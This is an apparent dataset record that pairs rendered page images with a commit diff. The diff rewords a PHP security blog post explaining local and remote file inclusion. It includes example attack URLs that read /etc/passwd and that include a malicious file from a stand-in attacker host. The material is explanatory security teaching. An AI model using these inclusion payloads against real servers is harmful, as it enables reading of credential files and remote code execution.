

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8712 px. Shown: the whole window, without its empty margins (108-1168 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -172,5 +172,5 @@ The easiest way to explain it:<br>
 When an attacker is exploiting RFI, he uses a remote file, while on the other side, LFI uses local files when they are attacking servers; even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local system files, for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.<br>
 <code>https://localhost/app.php?file=/etc/passwd</code>
 
-On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
-For example <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for evil intention.
+On the other hand, while exploiting RFI you can upload files from a remote server which in 99% of the cases will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild, because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
+Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention.
```
